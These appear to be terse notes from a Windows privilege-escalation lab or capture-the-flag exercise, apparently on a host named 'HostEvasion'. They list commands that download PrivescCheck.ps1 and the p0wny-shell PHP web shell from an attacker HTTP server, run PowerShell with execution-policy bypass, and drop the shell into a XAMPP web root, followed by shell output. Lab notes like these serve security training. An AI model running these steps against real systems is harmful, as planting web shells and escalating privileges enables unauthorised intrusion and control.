 Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
SHELL>



https://github.com/itm4n/PrivescCheck

https://github.com/itm4n/PrivescCheck/blob/master/PrivescCheck.ps1



Upload ed execute PrivescCheck.ps1:

    iwr -uri "http://10.8.163.249:8000/PrivescCheck.ps1" -o priv.ps1

    curl "http://10.8.163.249:8000/PrivescCheck.ps1" -o priv.ps1


powershell.exe -ep bypass -c "..\priv.ps1; Invoke-PrivescCheck"


powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"




------------------------------------------------------------



https://github.com/flozz/p0wny-shell/blob/master/shell.php


 cd C:\xampp\htdocs\

iwr -uri "http://10.8.163.249:8000/shell.php" -o shell.php


curl "http://10.8.163.249:8000/shell.php" -o shell.php



    http://10.201.71.91:8080/shell.php





        

        ___                         ____      _          _ _        _  _   
 _ __  / _ \__      ___ __  _   _  / __ \ ___| |__   ___| | |_ /\/|| || |_ 
| '_ \| | | \ \ /\ / / '_ \| | | |/ / _` / __| '_ \ / _ \ | (_)/\/_  ..  _|
| |_) | |_| |\ V  V /| | | | |_| | | (_| \__ \ | | |  __/ | |_   |_      _|
| .__/ \___/  \_/\_/ |_| |_|\__, |\ \__,_|___/_| |_|\___|_|_(_)    |_||_|  
|_|                         |___/  \____/                                  
                

            

evader@HostEvasion:C:\xampp\htdocs#  whoami /priv

PRIVILEGES INFORMATION
----------------------
